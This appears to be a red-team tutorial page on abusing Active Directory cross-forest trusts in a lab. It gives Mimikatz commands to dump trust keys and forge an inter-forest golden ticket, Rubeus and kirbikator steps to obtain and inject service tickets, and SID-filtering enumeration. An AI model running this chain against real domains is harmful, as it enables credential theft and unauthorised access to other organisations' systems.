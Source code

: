 ### Requirement

* Compromised DC

### Tools

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Like intra forest scenario, we require the trust key for the inter-forest trust.
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
or
Invoke-Mimikatz -Command '"lsadump::dcsync
/user:eu\euvendor$"'   // /user:domain/netbiosNameofRemoteForest
or
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
<strong>
</strong><strong>We can also use any of the earlier discussed tools to extract trust keys.
</strong><strong>
</strong><strong>Forge an inter-forest TGT
</strong>Invoke-Mimikatz -Command '"kerberos::golden/user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi"' 
(/rc4 is the trust key; called Hash NTLM in the above output)

Get a TGS for a service (CIFS below) in the target forest by using the forged trust
ticket.
.\Rubeus.exe aktgs /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi /service:CIFS/euvendordc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
.\asktgs.exe C:\AD\Tools\kekeo_old\sharedwitheu.kirbi CIFS/euvendordc.euvendor.local

Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for
PowerShell Remoting and WinRM) can be created as well.  

Use the TGS to access the target resource which must be explicitly shared:
.\kirbikator.exe lsa CIFS.euvendordc.euvendor.local.kirbi
ls \\euvendor-dc.euvendor.local\eushare\
</code></pre>

## Cross Forest - SID Filtering Hints

Find out if SID history is enabled

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Get-ADTrust -Filter *
</strong>  If SIDFilteringForestAware is set to True, it means SIDHistory is enabled across the forest trust.
</code></pre>

Get users with RID > 1000, which could be used for the attack.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Get-ADGroup -Filter * -server euvendor.local  //Gives all the Groups, choose the interesting ones
Get-ADGroup -Identity EUAdmins -Server euvendor.local  //Check for RID > 1000 which are admins. Do that on the relevant DC or on a machine in that domain
Get-ADGroup -filter 'SID -ge "S-1-.....-1000"' -server euvendor.local   //all SIDs greater than 1000
